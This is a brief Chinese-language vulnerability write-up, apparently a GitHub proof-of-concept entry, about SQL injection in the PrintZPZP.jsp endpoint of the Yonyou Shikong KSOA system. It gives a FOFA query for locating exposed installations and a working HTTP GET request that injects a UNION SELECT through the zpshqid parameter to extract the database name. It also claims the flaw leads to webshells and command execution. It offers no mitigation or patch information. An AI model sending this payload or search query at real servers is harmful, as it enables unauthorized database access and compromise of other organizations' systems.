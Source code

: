 # 用友时空KSOA系统接口PrintZPZP.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp//PrintZPZP.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/PrintZPZP.jsp?zpshqid=1%27+union+select+1,2,db_name(),4,5,6,7,8,9,10,11,12,13+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```

